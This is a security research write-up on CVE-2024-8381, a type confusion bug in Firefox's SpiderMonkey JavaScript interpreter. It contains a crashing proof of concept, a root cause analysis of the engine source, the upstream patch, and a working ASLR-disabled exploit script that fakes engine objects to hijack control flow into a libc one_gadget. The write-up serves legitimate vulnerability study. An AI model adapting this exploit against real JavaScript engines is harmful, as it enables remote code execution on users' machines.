


# CVE-2024-8381

Author: Jack Ren ([@bjrjk](https://github.com/bjrjk))

This is a relatively-trivial side-effect caused type confusion bug in SpiderMonkey interpreter. Generally speaking, side-effect type confusion bugs usually appears in JITed code and are easy to be exploited. However, type confusion in this bug happens in interpreter, which brings lots of constraints. I once wanted to give up, but finally I strived to develop an exploit with ASLR disabled. I consider the bug is unexploitable when ASLR is enabled. Now let's start with this bug!

As CVE-2024-8381 is a relative easy type confusion bug, this writeup won't have as many sections as CVE-2022-4262. The article will be organized into the following 3 technical sections:
- [Proof of Concept](#proof-of-concept): This section contains PoC source and a type confusion figure, which describes an integer is mistreated as a pointer to `GetterSetter` object when engine is crashing.
- [Root Cause Analysis](#root-cause-analysis): We'll introduce background knowledge `with` statement and `Symbol.unscopables` first. Then tell you how those two syntax elements introduce an implicit callback to change the type of confused property `prop`.
- [Exploit](#exploit): This section will first provide you an exploit for ASLR-disabled engine. Then relates a few tries on developing exploit for ASLR-enabled engine but unfortunately failed. I consider these will be benificial for more vulnerability researchers to better understand this vulnerability to facilitate further process.

## Environmental Setup

```bash
# Prepare source & compiler
git clone https://github.com/mozilla/gecko-dev.git
cd gecko-dev
git checkout 198d5fc1bebaaf114197a529ebdd4b9601045719
./mach bootstrap
# Prepare mozconfigs
mkdir mozconfigs
cd mozconfigs
wget https://raw.githubusercontent.com/bjrjk/CVE-2024-8381/refs/heads/main/mozconfigs/debug
wget https://raw.githubusercontent.com/bjrjk/CVE-2024-8381/refs/heads/main/mozconfigs/opt
cd ..
# Compile debug (this generate compile_commands.json for code intellisense)
MOZCONFIG=$(pwd)/mozconfigs/debug ./mach configure
cd obj-debug-x86_64-pc-linux-gnu
bear -- make -j 32
cd ..
# Compile opt
MOZCONFIG=$(pwd)/mozconfigs/release ./mach build
# Execute PoC & Exploit
obj-debug-x86_64-pc-linux-gnu/dist/bin/js PoC.js # PoC
setarch x86_64 -R obj-opt-x86_64-pc-linux-gnu/dist/bin/js Exp.js # Exp
```

## Proof of Concept

### PoC Source

Manually mutated from [js/src/jit-test/tests/environments/bug1912715-1.js][3].

```javascript
const obj = {
    get prop() {
        Object.defineProperty(this, "prop", { enumerable: true, value: 0x1234 });
        return false;
    },
};
obj[Symbol.unscopables] = obj;
with (obj) {
    assertEq(prop, 0x1234);
}
```

On `debug` version, engine complains that `0xfff8800000001234` (NaN-boxed integer 0x1234) isn't `GCThing`. The stack trace is listed as follows:
```
#0  0x00005555576d4c94 in JS::Value::toGCThing (this=0x2234e9000ab0) at obj-debug-x86_64-pc-linux-gnu/dist/include/js/Value.h:1012
#1  0x0000555557929ae3 in js::NativeObject::getGetterSetter (this=0x2234e9000a48, slot=0) at js/src/vm/NativeObject.h:1213
#2  0x0000555557929a68 in js::NativeObject::getGetterSetter (this=0x2234e9000a48, prop=...) at js/src/vm/NativeObject.h:1217
#3  0x000055555792999e in js::NativeObject::getGetter (this=0x2234e9000a48, prop=...) at js/src/vm/NativeObject.h:1226
#4  0x0000555557917b04 in js::NativeObject::hasGetter (this=0x2234e9000a48, prop=...) at js/src/vm/NativeObject.h:1235
#5  0x0000555557c64323 in GetExistingProperty<(js::AllowGC)1> (cx=0x7ffff6d36200, receiver=..., obj=..., id=..., prop=..., vp=...) at js/src/vm/NativeObject.cpp:2163
#6  0x0000555557c64221 in js::NativeGetExistingProperty (cx=0x7ffff6d36200, receiver=..., obj=..., id=..., prop=..., vp=...) at js/src/vm/NativeObject.cpp:2178
#7  0x000055555789d4df in js::FetchName<(js::GetNameMode)0> (cx=0x7ffff6d36200, receiver=..., holder=..., name=..., prop=..., vp=...) at js/src/vm/Interpreter-inl.h:146
#8  0x00005555578b670b in js::GetEnvironmentName<(js::GetNameMode)0> (cx=0x7ffff6d36200, envChain=..., name=..., vp=...) at js/src/vm/Interpreter-inl.h:198
#9  0x0000555557893ca4 in GetNameOperation (cx=0x7ffff6d36200, envChain=..., name=..., nextOp=JSOp::Uint16, vp=...) at js/src/vm/Interpreter.cpp:263
#10 0x00005555578845ae in js::Interpret (cx=0x7ffff6d36200, state=...) at js/src/vm/Interpreter.cpp:3565
#11 0x0000555557873d75 in MaybeEnterInterpreterTrampoline (cx=0x7ffff6d36200, state=...) at js/src/vm/Interpreter.cpp:401
#12 0x0000555557873a21 in js::RunScript (cx=0x7ffff6d36200, state=...) at js/src/vm/Interpreter.cpp:459
#13 0x0000555557875f61 in js::ExecuteKernel (cx=0x7ffff6d36200, script=..., envChainArg=..., evalInFrame=..., result=...) at js/src/vm/Interpreter.cpp:846
#14 0x00005555578762dc in js::Execute (cx=0x7ffff6d36200, script=..., envChain=..., rval=...) at js/src/vm/Interpreter.cpp:878
#15 0x0000555557ab0b9f in ExecuteScript (cx=0x7ffff6d36200, envChain=..., script=..., rval=...) at js/src/vm/CompilationAndEvaluation.cpp:495
#16 0x0000555557ab0cc5 in JS_ExecuteScript (cx=0x7ffff6d36200, scriptArg=...) at js/src/vm/CompilationAndEvaluation.cpp:519
#17 0x00005555576c574f in RunFile (cx=0x7ffff6d36200, filename=0x7ffff6d455e0 "CVE-2024-8381/PoC.js", file=0x7ffff7668200, compileMethod=CompileUtf8::DontInflate, compileOnly=false, fullParse=false) at js/src/shell/js.cpp:1195
#18 0x00005555576c501c in Process (cx=0x7ffff6d36200, filename=0x7ffff6d455e0 "CVE-2024-8381/PoC.js", forceTTY=false, kind=FileScript) at js/src/shell/js.cpp:1830
#19 0x000055555769c871 in ProcessArgs (cx=0x7ffff6d36200, op=0x7fffffffdc30) at js/src/shell/js.cpp:11293
#20 0x000055555768b049 in Shell (cx=0x7ffff6d36200, op=0x7fffffffdc30) at js/src/shell/js.cpp:11545
#21 0x0000555557685c67 in main (argc=2, argv=0x7fffffffdea8) at js/src/shell/js.cpp:12071
#22 0x00007ffff782a1ca in __libc_start_call_main (main=main@entry=0x5555576852d0 <main(int, char**)>, argc=argc@entry=2, argv=argv@entry=0x7fffffffdea8) at ../sysdeps/nptl/libc_start_call_main.h:58
#23 0x00007ffff782a28b in __libc_start_main_impl (main=0x5555576852d0 <main(int, char**)>, argc=2, argv=0x7fffffffdea8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffde98) at ../csu/libc-start.c:360
#24 0x000055555767b0c9 in _start ()
```

On `opt` version, engine crashes on dereferencing `0x1234`.

### PoC Type Confusion Figure

To better understand this type confusion figure, you will need to know SpiderMonkey object layout first. Please refer to [Background - SpiderMonkey Engine - Object Layout in Slides.pdf](Slides.pdf).



The `NativeObject` is `obj`. The `ObjectSlots` stores the non-indexed properties of `obj`. It has two slots storing JavaScript properties, `prop` and `Symbol.unscopables`, at `0x10` and `0x18`, respectively.
- Before Type Confusion: The `prop` slot is a NaN-boxed pointer pointing to a `GetterSetter` object, which is the SpiderMonkey implementation of JavaScript **Accessor**. The field `getter` at `0x0`, is a unboxed pointer to a `JSFunction`, who implements the getter logic.
- After Type Confusion: The `prop` slot is a NaN-boxed integer, `0xfff8800000001234`. However, the SpiderMonkey interpreter still considers it a pointer to `GetterSetter` object, which causes type confusion.

## Root Cause Analysis

### Background

#### `with` Statement

The `with` statement extends the scope chain for a statement. <sup>[4][4]</sup>

Syntax:
```javascript
with (expression)
  statement
```

- `expression`: Adds the given expression to the scope chain used when evaluating the statement. The parentheses around the expression are required.
- `statement`: Any statement. To execute multiple statements, use a block statement (`{ ... }`) to group those statements.

There are two types of identifiers: a *qualified* identifier and an *unqualified* identifier. An *unqualified* identifier is one that does not indicate where it comes from.

```javascript
foo; // unqualified identifier
foo.bar; // bar is a qualified identifier
```

The `with` statement adds the given object to the head of this scope chain during the evaluation of its statement body. Every unqualified name would first be searched within the object (through a `in` check) before searching in the upper scope chain.

Note that if the unqualified reference refers to a method of the object, the method is called with the object as its `this` value.

The following `with` statement specifies that the `Math` object is the default object. The statements following the `with` statement refer to the `PI` property and the `cos` and `sin` methods, without specifying an object. JavaScript assumes the `Math` object for these references.

```javascript
let a, x, y;
const r = 10;

with (Math) {
  a = PI * r * r;
  x = r * cos(PI);
  y = r * sin(PI / 2);
}
```

#### `Symbol.unscopables`

An object may have an `[Symbol.unscopables]` property, which defines a list of properties that should not be added to the scope chain.

The `with` statement looks up this symbol on the scope object for a property containing a collection of properties that should not become bindings within the `with` environment. <sup>[5][5]</sup>

Setting a property of the `[Symbol.unscopables]` object to `true` (or any truthy value) will make the corresponding property of the `with` scope object *unscopable* and therefore won't be introduced to the `with` body scope. Setting a property to `false` (or any falsy value) will make it *scopable* and thus appear as lexical scope variables.

The following is an example:

```javascript
const object1 = {
  property1: 42,
};

object1[Symbol.unscopables] = {
  property1: true,
};

with (object1) {
  console.log(property1);
  // Expected output: Error: property1 is not defined
}
```

### Root Cause

#### Summary

```javascript
const obj = {
    get prop() {
        Object.defineProperty(this, "prop", { enumerable: true, value: 0x1234 });
        return false;
    },
};
obj[Symbol.unscopables] = obj;
with (obj) {
    assertEq(prop, 0x1234);
}
```

When getting property `prop` from `obj`,
1. Engine finds `obj.prop` is an accessor property, and cache it on a stack variable.
2. Engine tries to know whether `prop` should be a binding by getting `obj[Symbol.unscopables].prop`, which is a getter, who makes `obj.prop` become a data property and tell engine `prop` should be a binding.
3. Engine tries to execute the accessor (as the stack variable said it is), but find the pointer to accessor becomes an integer. The engine crashes.

#### js::GetEnvironmentName

Access to `prop` in `with` statement is translated to `GetName` bytecode. It indirectly invokes `js::GetEnvironmentName` in `js/src/vm/Interpreter-inl.h:178`:

```cpp
template <js::GetNameMode mode>
inline bool GetEnvironmentName(JSContext* cx, HandleObject envChain,
                               Handle<PropertyName*> name,
                               MutableHandleValue vp) {
  // ...

  PropertyResult prop;
  RootedObject obj(cx), pobj(cx);
  if (!LookupName(cx, name, envChain, &obj, &pobj, &prop)) { // (1)
    return false;
  }

  return FetchName<mode>(cx, obj, pobj, name, prop, vp); // (2)
}
```

Among which, `LookupName` at `(1)` is responsible for querying shape and store property's storage location to `PropertyResult prop` and `FetchName` at `(2)` will take `PropertyResult prop` to do the actual load operation.

#### js::LookupProperty

`LookupName` at `(1)` indirectly invokes `js::LookupProperty` in `js/src/vm/JSObject.cpp:1566`:

```cpp
bool js::LookupProperty(JSContext* cx, HandleObject obj, js::HandleId id,
                        MutableHandleObject objp, PropertyResult* propp) {
  if (LookupPropertyOp op = obj->getOpsLookupProperty()) { // (3)
    return op(cx, obj, id, objp, propp);
  }
  return NativeLookupPropertyInline<CanGC>(cx, obj.as<NativeObject>(), id, objp,
                                           propp);
}
```

On first time executing this function, `obj` is a `WithEnvironmentObject` and its `getOpsLookupProperty()` is `with_LookupProperty`.

#### with_LookupProperty

`with_LookupProperty` in `js/src/vm/EnvironmentObject.cpp:798` implements the logic to find a variable in a `with` scope.

```cpp
static bool with_LookupProperty(JSContext* cx, HandleObject obj, HandleId id,
                                MutableHandleObject objp,
                                PropertyResult* propp) {
  // ...

  RootedObject actual(cx, &obj->as<WithEnvironmentObject>().object());
  if (!LookupProperty(cx, actual, id, objp, propp)) { // (4)
    return false;
  }

  if (propp->isFound()) {
    bool scopable;
    if (!CheckUnscopables(cx, actual, id, &scopable)) { // (5)
      return false;
    }
    if (!scopable) {
      objp.set(nullptr);
      propp->setNotFound();
    }
  }
  return true;
}
```

`LookupProperty` at `(4)` query the shape on javascript `obj`, find it is an accessor at offset `0x10`, and store the information in `*propp`.

`CheckUnscopables` at `(5)` invokes `CheckUnscopables`.

#### CheckUnscopables

`CheckUnscopables` in `js/src/vm/EnvironmentObject.cpp:778` is responsible for checking whether a property should be binding in `with` scope.

```cpp
/* Implements ES6 8.1.1.2.1 HasBinding steps 7-9. */
static bool CheckUnscopables(JSContext* cx, HandleObject obj, HandleId id,
                             bool* scopable) {
  RootedId unscopablesId(
      cx, PropertyKey::Symbol(cx->wellKnownSymbols().unscopables));
  RootedValue v(cx);
  if (!GetProperty(cx, obj, obj, unscopablesId, &v)) {
    return false;
  }
  if (v.isObject()) {
    RootedObject unscopablesObj(cx, &v.toObject());
    if (!GetProperty(cx, unscopablesObj, unscopablesObj, id, &v)) { // (6)
      return false;
    }
    *scopable = !ToBoolean(v);
  } else {
    *scopable = true;
  }
  return true;
}
```

`GetProperty` at `(6)` calls JavaScript Getter `obj[Symbol.unscopables].prop`, i.e. `obj.prop`. The getter changes the object's `prop` from a `GetterSetter` to an integer and modified shape accordingly.

Then the control flow continues to `FetchName` at `(2)`.

#### js::FetchName

`FetchName` in `js/src/vm/Interpreter-inl.h:115` take `PropertyResult& prop` to do the actual load operation.

```cpp
template <GetNameMode mode>
inline bool FetchName(JSContext* cx, HandleObject receiver, HandleObject holder,
                      Handle<PropertyName*> name, const PropertyResult& prop,
                      MutableHandleValue vp) {
  // ...

  /* Take the slow path if shape was not found in a native object. */
  if (!receiver->is<NativeObject>() || !holder->is<NativeObject>()) {
    Rooted<jsid> id(cx, NameToId(name));
    if (!GetProperty(cx, receiver, receiver, id, vp)) { // (7)
      return false;
    }
  } else {
    PropertyInfo propInfo = prop.propertyInfo();
    if (propInfo.isDataProperty()) {
      /* Fast path for Object instance properties. */
      vp.set(holder->as<NativeObject>().getSlot(propInfo.slot()));
    } else {
      // Unwrap 'with' environments for reasons given in
      // GetNameBoundInEnvironment.
      RootedObject normalized(cx, MaybeUnwrapWithEnvironment(receiver));
      RootedId id(cx, NameToId(name));
      if (!NativeGetExistingProperty(cx, normalized, holder.as<NativeObject>(),
                                     id, propInfo, vp)) { // (8)
        return false;
      }
    }
  }

  // ...
}
```

When executing to `FetchName`, `receiver` is a `WithEnvironmentObject`, which is a subclass of `NativeObject` and `holder` is JavaScript `obj`, CPP `NativeObject`. This lead control flow jump into the `else` branch.

The `else` branch is a fast path using cached `PropertyInfo`, who said JavaScript `obj.prop` is a `GetterSetter`, to do actual load operation. This is wrong because `GetProperty` at `(6)` has already changed `obj.prop` from an accessor property to a data property.

### Patch

```diff
diff --git a/js/src/vm/Interpreter-inl.h b/js/src/vm/Interpreter-inl.h
index b70fced9d141..f77d9118477e 100644
--- a/js/src/vm/Interpreter-inl.h
+++ b/js/src/vm/Interpreter-inl.h
@@ -128,7 +128,8 @@ inline bool FetchName(JSContext* cx, HandleObject receiver, HandleObject holder,
   }
 
   /* Take the slow path if shape was not found in a native object. */
-  if (!receiver->is<NativeObject>() || !holder->is<NativeObject>()) {
+  if (!receiver->is<NativeObject>() || !holder->is<NativeObject>() ||
+      receiver->is<WithEnvironmentObject>()) {
     Rooted<jsid> id(cx, NameToId(name));
     if (!GetProperty(cx, receiver, receiver, id, vp)) {
       return false;
@@ -139,11 +140,8 @@ inline bool FetchName(JSContext* cx, HandleObject receiver, HandleObject holder,
       /* Fast path for Object instance properties. */
       vp.set(holder->as<NativeObject>().getSlot(propInfo.slot()));
     } else {
-      // Unwrap 'with' environments for reasons given in
-      // GetNameBoundInEnvironment.
-      RootedObject normalized(cx, MaybeUnwrapWithEnvironment(receiver));
       RootedId id(cx, NameToId(name));
-      if (!NativeGetExistingProperty(cx, normalized, holder.as<NativeObject>(),
+      if (!NativeGetExistingProperty(cx, receiver, holder.as<NativeObject>(),
                                      id, propInfo, vp)) {
         return false;
       }
```

To mitigate this vulnerability, the SpiderMonkey developer let engine enter slow path at `(7)` when receiver is a `WithEnvironmentObject`. After this fix, the engine won't use erroneous cached property information anymore.

## Exploit

Unfortunately, I'm not able to construct any other primitives, except control flow hijacking when ASLR-disabled. So, on the next subsections, I'll first introduce my exploit on ASLR-disabled engine, then present multiple ways I have tried to develop exploit. I hope those information will help facilitate further research on this bug or any other type confusion bugs.

### Core Idea & Type Confusion Figure of Exploit without ASLR



In summary, we are going to construct a chain of objects in a fixed-address data buffer to implement RCE.
- How to get a fixed-address data buffer?
  - When ASLR is disabled, If you apply for a tremendously large `TypedArray` in JavaScript, its data buffer will be allocated at a fixed-address by `mozjemalloc`.
  - Through JavaScript `TypedArray` API, we'll be able to fake object in the data buffer meanwhile knowing their address.
- How to construct objects chain?
  - We'll fake `GetterSetter`, `JSObject`, `Shape`, `BaseShape`, `JSClass` and `JSClassOps` object in the data buffer. Then we construct their point-to relation according to the figure.
  - Among the chain, there is an object `JSClassOps` who has function pointer fields. We can modify the function pointer of faked `JSClassOps` hence implementing control flow hijacking.
  - In the exploit, we choose to hijack the control flow to libc one_gadget.

### Exploit Source

```javascript
let ab = new ArrayBuffer(8);
let f64a = new Float64Array(ab, 0, 1);
let i32a = new Uint32Array(ab, 0, 2);
let si32a = new Int32Array(ab, 0, 2);
let bi64a = new BigUint64Array(ab, 0, 1);

function c2f(low, high) { // combined (two 4 bytes) word to float
    i32a[0] = low;
    i32a[1] = high;
    return f64a[0];
}

function b2f(v) { // bigint to float
    bi64a[0] = v;
    return f64a[0];
}

function f2b(v) { // float to bigint
    f64a[0] = v;
    return bi64a[0];
}

const buffer = new BigUint64Array(0x2000_0000);
const bufferAddr = 0x7ffe_f4c0_0000n;  // (1)
const GetterSetterOffset = 0x0n;
const JSObjectOffset = 0x10n;
const ShapeOffset = 0x60n;
const BaseShapeOffset = 0x100n;
const JSClassOffset = 0x150n;
const JSClassOpsOffset = 0x200n;
// Faked GetterSetter
buffer[GetterSetterOffset / 8n] = bufferAddr + JSObjectOffset;
// Faked JSObject
buffer[JSObjectOffset / 8n] = bufferAddr + ShapeOffset;
// Faked Shape
buffer[ShapeOffset / 8n] = bufferAddr + BaseShapeOffset;
buffer[(ShapeOffset + 0x8n) / 8n] = 0b01_0000n; // immutableFlags: Shared (Mustn't be Proxy)
// Faked BaseShape
buffer[BaseShapeOffset / 8n] = bufferAddr + JSClassOffset; // clasp
buffer[(BaseShapeOffset + 0x8n) / 8n] = 0x7fff_f6d1_3c00n; // (2) realm: JSContext.realm_ (varies across different runs even ASLR disabled)
// Faked JSClass
buffer[(JSClassOffset + 0x10n) / 8n] = bufferAddr + JSClassOpsOffset; // cOps
// Faked JSClassOps
buffer[(JSClassOpsOffset + 0x38n) / 8n] = 0x555555554000n + 0x00000000022efccen; // (3) call: gadget: call qword ptr [r13 + 0x48]
// r13 points to bufferAddr + JSObjectOffset at first control flow hijacking point
buffer[(JSObjectOffset + 0x48n) / 8n] = 0x7ffff7800000n + 0x583dcn; // (4) libc one_gadget


const obj = {
    get prop() {
        Object.defineProperty(this, "prop", { enumerable: true, value: b2f(bufferAddr) });
        return false;
    },
};
obj[Symbol.unscopables] = obj;
with (obj) {
    prop;
}
```

There are a few points worth mentioning in the exploit source:
1. `bufferAddr` at `(1)` should be a pointer to the underlying `data` of `buffer`, which is fixed when ASLR is disabled.
2. faked `BaseShape.realm` at `(2)` should be a pointer to `JSContext.realm_`, which is allocated and initialized at very early stage when `js` program start up. Even when ASLR is disabled, this field also varies across different runs. Due to this reason, the success rate of exploit is only about 10% even without ASLR.
3. Direct hijacking control flow to libc one_gadget by modifying `JSClassOps.call` isn't feasible on my specific environment due to one_gadget constraints `rsp & 0xf == 0x0`, while my `rsp & 0xf == 0x8`. Via observation on hijacking point, I found register `r13` stores address `bufferAddr + JSObjectOffset`. Using gadget `call qword ptr [r13 + 0x48]` in `js` and store libc one_gadget to address `bufferAddr + JSObjectOffset + 0x48`, I was able to fulfill this constraint and succeeded.

### Demo Videos

[Tailored Demo](Videos/CVE-2024-8381-Tailored.mp4)

[Demo](Videos/CVE-2024-8381.mp4)

### Tried methods to RCE

The followings are my tries to transform this type confusion bug with more exploitability.

- Try 1: Mutate the PoC to call setter, instead of getter
  - Type Confusion doesn’t happen anymore because
    - The variable GET operation is translated into `GetName` in bytecode.
      - `GetName` do cache the type of property, `GetterSetter`, for later use.
    - The variable SET operation is translated into `BindName` + `SetName` in bytecode.
      - However, `BindName` + `SetName` don’t cache anything.
    > Note that you can dump bytecodes by using `-D --code-coverage`.
- Try 2: Assign the `prop` with a real object whose critical fields are controllable, instead of an integer
  - Selected possible object candidates: `Symbol` & `BigInt`
    - Selection Principle: The field at offset `0x0` of object candidates, which is the original place of pointer to `GetterSetter`, must be a pointer to a *callable* object to achieve control flow hijacking.
  - `Symbol`: The field at offset `0x0` of `Symbol` is a pointer to `JSAtom`.
    - The field at offset `0x0` of `JSAtom` is `lengthAndFlags`. To make engine consider `JSAtom` a *callable* object, we should mutate `lengthAndFlags` to a real `Shape` pointer or point to a fake `Shape`. To implement any of these, prerequisite is to bypass ASLR.
  - `BigInt`: The field at offset `0x0` of `BigInt` is `lengthAndFlags`.
    - We must fake an `JSObject` and make it *callable*, then make `lengthAndFlags` point to it. This will also need to bypass ASLR.
  - What’s more, `lengthAndFlags` is hard to mutate precisely due to it cannot be controlled by user directly.
  - To conclude, this try also seems unexploitable unless disabling ASLR and solving the mutating difficulty of `lengthAndFlags`.
- Finally, I give up bypassing ASLR😭
- Try 3: Assign the `prop` with a double, instead of an integer, to make engine consider it a pointer to object in release compilation.
  - Once we give up bypassing ASLR, we’ll find that the address of data buffer of an allocated tremendous large TypedArray is fixed without ASLR.
  - Then, we fake all need data structures in the address-fixed buffer to achieve control flow hijacking.
  - This is easier than previous try because we don’t need to mutate `lengthAndFlags`.
  - This is the final method I adopted to develop exploit. Details has been listed in the above subsections.

## References

1. https://www.cve.org/CVERecord?id=CVE-2024-8381
2. https://github.com/mozilla/gecko-dev/commit/fab7e5c28e628ddc2b873a723838562c9b41205e
3. https://github.com/mozilla/gecko-dev/commit/0ca509a3a7fbf4ff5d34cf25083a4427f3205549
4. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with
5. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Symbol/unscopables


[1]: https://www.cve.org/CVERecord?id=CVE-2024-8381
[2]: https://github.com/mozilla/gecko-dev/commit/fab7e5c28e628ddc2b873a723838562c9b41205e
[3]: https://github.com/mozilla/gecko-dev/commit/0ca509a3a7fbf4ff5d34cf25083a4427f3205549
[4]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with
[5]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Symbol/unscopables